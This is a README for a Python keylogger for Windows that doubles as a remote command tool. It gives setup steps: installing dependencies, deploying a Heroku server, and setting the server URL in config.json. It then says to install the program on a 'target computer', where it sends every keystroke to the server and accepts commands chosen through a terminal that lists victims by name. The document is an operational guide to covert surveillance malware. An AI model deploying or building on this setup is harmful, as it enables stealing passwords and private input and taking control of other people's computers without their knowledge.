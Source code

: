 # Keylogger

Keylogger for Windows created in Python. This application not only captures the keys like any other Keylogger, but also has the functionality to execute commands on the target computer and more.

# Getting Started:

**Requirements:**

- Python 3
- Dependencies installed

To install the dependencies, type the command: `pip install -r requirements.txt`

After that, start the server at `server/server.py` (it is already configured to run on Heroku).

# Setting and running keylogger:

Open the `app/config /config.json` file and enter the server URL in the **host** key. See the example below:
```
{
    "host": "https://keylogger-app-37456.herokuapp.com/"
}
```

Once configured, install the **keylogger** on the target computer and run. After that, all the keys pressed by the 
user will be read and sent to the server and the application will be ready to receive and execute your commands.

# Getting the keys and executing commands:

To read keys and execute commands on the target computer, run `app/terminal.py` and select a user using
the `select` command. See the example below:

```
In: users

John Gamer
KatarinaMid_273
Victor34

In: select KatarinaMid_273 </br>
In: keylogger
```

Type `help` to see all available commands.